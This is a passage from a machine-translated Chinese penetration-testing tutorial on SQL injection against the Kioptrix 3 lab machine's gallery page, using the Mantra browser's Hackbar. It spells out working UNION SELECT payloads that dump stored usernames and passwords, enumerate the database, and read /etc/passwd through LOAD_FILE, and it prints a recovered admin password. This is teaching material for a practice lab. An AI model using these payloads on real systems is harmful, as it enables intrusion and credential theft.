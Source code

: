 作为响应，我们仍然收到以下错误：

```
The used SELECT statements have a different number of columns. Could not select category

```

如果您熟悉 SQL 注入，那么您已经知道问题所在。我们的专栏太多了。现在，我们将迭代列计数，直到不再收到错误消息。请尝试以下操作：

```
http://kioptrix3.com/gallery/gallery.php?id=null%20and%201=2%20union%20select%201,2,3,4,5,6 

```

现在我们看到了更有趣的东西。我们的 SQL 注入成功了！接下来，我们将概念验证代码更改为以下内容，并尝试一下：

```
http://kioptrix3.com/gallery/gallery.php?id=null+and+1=2+union+select+1,group_concat(userid,0x3a,username,0x3a,password),3,4,5,6+from+gallarific_users-- 

```

此命令导致向我们提供用户名 `admin`和密码 `n0t7t1k4`。使用此信息登录[http://kioptrix3.com/gallery/gadmin](http://kioptrix3.com/gallery/gadmin) 浏览一下。您拥有应用程序的管理员权限，但尚未获得计算机本身的 root 权限。现在您知道可以使用 SQL 注入来获取数据库中的任何内容，开始考虑您还可以获取哪些内容；也不要忘记我们的文件包含漏洞！我们通过 Kioptrix 3 级的旅程尚未完成。

# 咒语导论

Mantra 浏览器为渗透测试人员提供了大量工具，使 web 应用程序测试高效有趣。它利用了多年来编写的许多基于浏览器的插件，这些插件可在[上获得 http://getmantra.com](http://getmantra.com) 。请务必查看本网站提供的一些编写良好且详细的教程，因为它们提供了超出基础的用例示例。我们将使用 Mantra 中的插件以高效的方式充分利用我们实验室中的 Kioptrix 3 机器。我们在本例中使用的主要插件是 Hackbar。您可以在[了解更多关于 Hackbar 的信息 https://addons.mozilla.org/en-US/firefox/addon/hackbar/](http://https://addons.mozilla.org/en-US/firefox/addon/hackbar/) 。Mantra 中的 Hackbar 和其他附加组件使测试 web 应用程序变得有趣，并允许知识渊博的渗透测试人员手动验证 web 应用程序的安全性。

### 注

您仍然需要了解 web 应用程序安全性是如何工作的，以及如何手动执行这些测试；Mantra 提供了许多手动测试所需的工具，使测试过程更加方便和高效。使用 Mutillidae 安装来填补您在测试常见 web 应用程序安全问题时的任何空白。

1.  我们的第一步是在回溯机器上打开 Mantra 浏览器。从导航菜单中选择**回溯****漏洞评估****漏洞扫描器****咒语**即可找到咒语。
2.  在 Mantra 中，使用浏览器的 URL 导航栏（[浏览到 Kioptrix 1.2 虚拟服务器上托管的网页 http://kioptrix3.com](http://kioptrix3.com) ）。
3.  使用 Mantra 中的 hackbar 输入以下 URL 并点击**执行**按钮：

    ```
    http://kioptrix3.com/gallery/gallery.php?id=null+and+1=2+union+select+1,group_concat(userid,0x3a,username,0x3a,password),3,4,5,6+from+gallarific_users-- 

    ```

4.  应向您提供用户名 `admin`和密码 `n0t7t1k4`。
5.  让我们来看看我们如何得到其他信息。在黑条中输入以下内容：[http://kioptrix3.com/gallery/gallery.php?id=1](http://kioptrix3.com/gallery/gallery.php?id=1) 点击**执行**。
6.  现在将光标放在[的末尾 http://kioptrix3.com/gallery/gallery.php?id=1](http://kioptrix3.com/gallery/gallery.php?id=1) 在 hackbar 中输入，添加一个空格，然后直接在 hackbar 上方单击**SQL**|**Union Select 语句**并在出现的弹出窗口中输入 `6`，然后单击**OK**。点击 hackbar**Execute**按钮验证 SQL 注入是否有效。
7.  现在，通过高亮显示并单击**SQL | MySQL |基本信息列**来替换查询中的数字 `2`，使您的 URL 现在看起来像这样：[http://kioptrix3.com/gallery/gallery.php?id=1 联合选择 1，CONCAT_WS（字符（32,58,32），用户（），数据库（），@@version），3,4,5,6](http://kioptrix3.com/gallery/gallery.php?id=1%20UNION%20SELECT%201,CONCAT_WS(CHAR(32,58,32),user(),database(),@@version),3,4,5,6)。点击 hackbar 上的**执行**并查看结果。输出应包含以下信息： `root@localhost : gallery : 5.0.51a-3ubuntu5.4`。您已成功枚举正在运行的用户、数据库名称和版本。
8.  此时，您可以使用任何典型的 SQL 注入技巧来枚举此数据库。尝试运行不同的命令，例如[http://kioptrix3.com/gallery/gallery.php?id=1 UNION 从信息 _schema.tables 中选择 1，table_name，3,4,5,6，其中 table_schema=database（）](http://kioptrix3.com/gallery/gallery.php?id=1%20UNION%20SELECT%201,table_name,3,4,5,6%20from%20information_schema.tables%20where%20table_schema=database())将列出当前数据库中的所有表。
9.  我们已经可以使用常用的 SQL 注入代码访问服务器上的某些文件，例如[http://kioptrix3.com/gallery/gallery.php?id=1 联合选择 1，加载 _ 文件（'/etc/passwd'），3,4,5,6](http://kioptrix3.com/gallery/gallery.php?id=1%20UNION%20SELECT%201,LOAD_FILE('/etc/passwd'),3,4,5,6)。这将列出服务器上的 passwd 文件。